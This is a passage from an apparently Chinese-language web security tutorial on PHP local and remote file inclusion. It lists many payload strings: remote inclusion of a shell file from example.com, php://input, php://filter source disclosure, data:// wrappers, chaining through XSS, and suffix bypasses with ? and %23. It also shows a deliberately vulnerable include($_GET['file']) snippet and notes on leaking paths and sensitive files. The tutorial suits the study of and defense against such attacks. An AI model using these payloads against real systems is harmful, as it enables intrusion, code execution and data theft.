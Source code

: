 **远程代码执行：**

`?file=[http|https|ftp]://example.com/shell.txt`

（需要`allow_url_fopen=On`并且`allow_url_include=On`）

**利用php流input：**

`?file=php://input`

（需要`allow_url_include=On`）

**利用php流filter：**

`?file=php://filter/convert.base64-encode/resource=index.php`

（需要`allow_url_include=On`）

**利用data：**

`?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`

（需要`allow_url_include=On`）

**利用XSS执行任意代码：**

`?file=http://127.0.0.1/path/xss.php?xss=phpcode`

（需要`allow_url_fopen=On，allow_url_include=On`，并且防火墙或者白名单不允许访问外网，现在同站点找一个XSS漏洞，把韩这个页面，就可以执行恶意代码了）

### 有限制的远程文件包含

```php
#!php
<?php
	include($_GET['file'] . ".htm");
?>
```

`?file=http://example.com/shell`

`?file=http://example.com/shell.txt?`

`?file=http://example.com/shell.txt%23`

（需要`allow_url_fopen=On，allow_url_include=On`）

`?file=\evilshare\shell.php`

（只需要`allow_url_include=On`）

## 0x05 具体利用技巧

### 1. 包含目标机上的其他文件

由于对取得的参数file没有过滤，于是我们可以任意指定目标主机上的其他敏感文件

假如我们去包含一个不存在的文件（需要`display_error=On`），我们就可以利用报错信息看到暴露的绝对路径，如下图

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpa596ftozj30xw09ftcr.jpg)

